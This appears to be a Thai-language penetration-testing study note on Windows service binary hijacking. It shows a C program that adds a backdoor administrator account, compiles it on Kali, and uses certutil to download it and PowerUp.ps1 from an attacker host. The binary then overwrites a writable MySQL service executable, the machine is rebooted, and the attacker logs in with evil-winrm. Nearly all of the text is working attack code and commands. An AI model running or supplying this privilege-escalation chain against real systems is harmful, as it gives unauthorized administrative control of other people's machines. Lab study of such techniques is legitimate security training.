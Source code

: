 ```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

```

จากตัวอย่างจะเห็นว่า Buildin\Users: มีสิทธิ Full Access ฉะนั้นเราสามารถทำ [[Win Service Binary Hijacking]] ได้ 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

จากนั้น ก็นำโปรแกรมไป Compire บน Kali 

```
# Compile adduser.c > .exe 
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe 

# download adduser.exe
certutil.exe -urlcache -split -f http://192.168.45.241/adduser.exe adduser.exe

# Backup ไฟล์ mysqld.exe กรณีพัง 
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk       
move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk

# เขียนทับ mysqld.exe ด้วย adduser.exe 
PS C:\Users\dave> copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 
copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 

# Restart เพื่อให้รัน Service
PS C:\Users\dave> shutdown /r /t 0 

Get-LocalGroupMember administrators

evil-winrm -i 192.168.222.220 -u dave2 -p 'password123!'

```

[[PowerUp.ps1]]

```
locate PowerUp
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 . 

certutil.exe -urlcache -split -f http://192.168.45.241/PowerUp.ps1 PowerUp.ps1

# จำเป็นต้องรันทุกครั้งก่อนรัน PowerUp
powershell -ep bypass
. .\PowerUp.ps1

# หลังจากติดตั้ง PowerUp เราสามารถตรวจสอบหา Service ที่สามารถแก้ไขได้และสามารถ upload adduser.exe ไปแทนได้ นั่นเอง
Get-ModifiableServiceFile 

```